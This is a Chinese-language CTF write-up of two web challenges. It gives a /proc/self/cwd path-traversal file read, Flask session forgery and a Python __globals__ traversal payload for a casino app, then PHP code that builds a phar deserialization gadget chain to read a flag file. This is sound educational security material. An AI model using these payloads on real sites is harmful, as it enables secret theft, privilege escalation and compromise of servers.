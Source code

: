 ***

### 皇家线上赌场

这道题真是让我涨姿势

有一个文件读取接口，但它会在传入的参数前`join`一个路径，我赛中一直想怎么绕过对`..`的过滤，而我真的不知道传入绝对路径时`os.path.join`方法会不拼接路径

再有就是我没想到hint里的路径和真实路径不同，感觉这就是专门用来误导的，而我确实不知道`/proc`目录查看真实路径的姿势，所以赛中真的懵了，膜ak web的大佬，看来开发和安全需要的知识差别还是不小

所以这里通过`/static?file=/proc/self/cwd/app/__init__.py`读到密钥，然后读视图文件的代码，先是用`github`的脚本伪造客户端`Session`（我最开始使用脚本伪造的session一直有问题，后来发现是我的`itsdangerous`库只有0.2.3版本一直没更新，而现在都是1.x了），从而获得`admin`身份和1e10+的钱

然后就是一个通过实例、类、它们的方法、全局命名空间的变量跳转访问了（因为这个题限制了函数调用）：

这里我们可以传入`g.u.{}`，来访问`g.u`的成员，`g`变量是`flask`四种全局变量之一，它一般是用来保存请求的全局临时变量，各请求间的值是独立的，它处于`current_app`同一个全局空间下，所以这里我们先获取`__globals__`，但只有函数有这个魔术变量（知道它里面有`__doc__`这种成员变量就很好理解了），所以按题目hint，先访问当前请求用户`g.u`的`save`方法：

```python
查看当前全局变量：
save.__globals__

访问SQLAlchemy实例engine：
[db]

再次查看全局
.__init__.__globals__

访问current_app
[current_app]

访问与g变量关联的函数before_request/after_request
.after_request.__globals__

查看g对象所有成员变量
[g].__dict__
```

完整payload：

`field=save.__globals__[db].__init__.__globals__[current_app].before_request.__globals__[g].__dict__`

***

### Simple PHP

这道题我开始读到`class.php`时还在想这么多类咋没用到，之后听别人题型才知道反序列化不一定需要`serialize`，早就听说今年`BlackHat`大会爆出的`phar`协议漏洞而一直没实践

知道该干嘛后就很简单了，通过一组类的魔术方法构造利用链：

```php
$o3 = new Test();
$o3 -> params = array();
$o3 -> params["source"] = "/var/www/html/f1ag.php";
$o2 = new Show("hacked");
$o2 -> str = array();
$o2 -> str['str'] = $o3;
$o1 = new C1e4r($o2);

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
$phar->setMetadata($o1);
$phar->addFromString("f1ag.php", "test");
```